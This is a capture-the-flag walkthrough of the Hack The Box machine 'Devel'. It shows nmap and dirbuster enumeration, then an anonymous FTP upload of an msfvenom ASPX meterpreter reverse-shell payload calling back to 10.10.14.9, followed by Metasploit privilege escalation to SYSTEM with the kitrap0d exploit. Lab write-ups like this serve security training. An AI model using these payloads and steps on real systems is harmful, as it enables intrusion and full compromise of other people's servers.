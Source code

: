 # Devel

## 1. Overview

### 1.1. Attacks

* ftp
* http

### 1.2. Tools used

**Enumeration** &rarr; `nmap`, `dirbuster`.

**Exploitation** &rarr; `http (IIS7)`, `ftp`.

## 2. Walkthrough

### 2.1. Enumeration

#### 2.1.1. nmap

##### 2.1.1.1. Ports

![Devel Ports](_v_images/20201004120635806_15416.png)

![Devel HTTP Header](_v_images/20201004120810708_2143.png)

**Finding:** Header has the version in it.

![Devel FTP login](_v_images/20201004121022845_16215.png)

**Finding:** FTP login allowed.

##### 2.1.1.2. Host Details

![Devel Host Details](_v_images/20201004120626965_22468.png)

#### 2.1.2. IIS7 Website

![Devel Template Website](_v_images/20201004121319611_28760.png)

**Finding:** Template IIS7 Webpage out in the open.

#### 2.1.3. Dirbuster

![Devel Dirbuster Settings](_v_images/20201004121822756_8965.png)


### 2.2. Exploitation

#### 2.2.1. Sources

[[NetSec] Creating Metasploit Payloads](https://netsec.ws/?p=331)

#### 2.2.2. Metasploit

```sh
root@kali:~> msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.9 LPORT=4444 -f aspx > ex.aspx
```

```msf
msf5 > use exploit/multi/handler
msf5 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > set LHOST 10.10.14.9
msf5 exploit(multi/handler) > run
```

Now we're listening to port `4444`. We start an `ftp` connection with `anonymous` as both username and password, since it's allowed.

```ftp
ftp> binary # Try this if put doesn't work
ftp> put ex.aspx
```

Go to: `10.10.10.5/ex.aspx` and in the tab with Metasploit listening we have a Meterpreter shell.

```sh
meterpreter > sysinfo
Computer        : DEVEL
OS              : Windows 7 (6.1 Build 7600).
Architecture    : x86
System Language : el_GR
Domain          : HTB
Logged On Users : 0
Meterpreter     : x86/windows
meterpreter > getuid
Server username: IIS APPPOOL\Web
meterpreter > getsystem
[-] priv_elevate_getsystem: Operation failed: Access is denied.
```

We're not SYSTEM!

```msf
meterpreter > background
msf5 exploit(multi/handler) > use post/multi/recon/local_exploit_suggester
msf5 post(multi/recon/local_exploit_suggester) > set SESSION 1
msf5 post(multi/recon/local_exploit_suggester) > run
```

We can use these suggested tools:

```msf
msf5 post(multi/recon/local_exploit_suggester) > use exploit/windows/local/ms10_015_kitrap0
msf5 exploit(windows/local/ms10_015_kitrap0d) > set session 1
msf5 exploit(windows/local/ms10_015_kitrap0d) > set LHOST 10.10.14.9
msf5 exploit(windows/local/ms10_015_kitrap0d) > set LPORT 4445
msf5 exploit(windows/local/ms10_015_kitrap0d) > run
```

```sh
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```
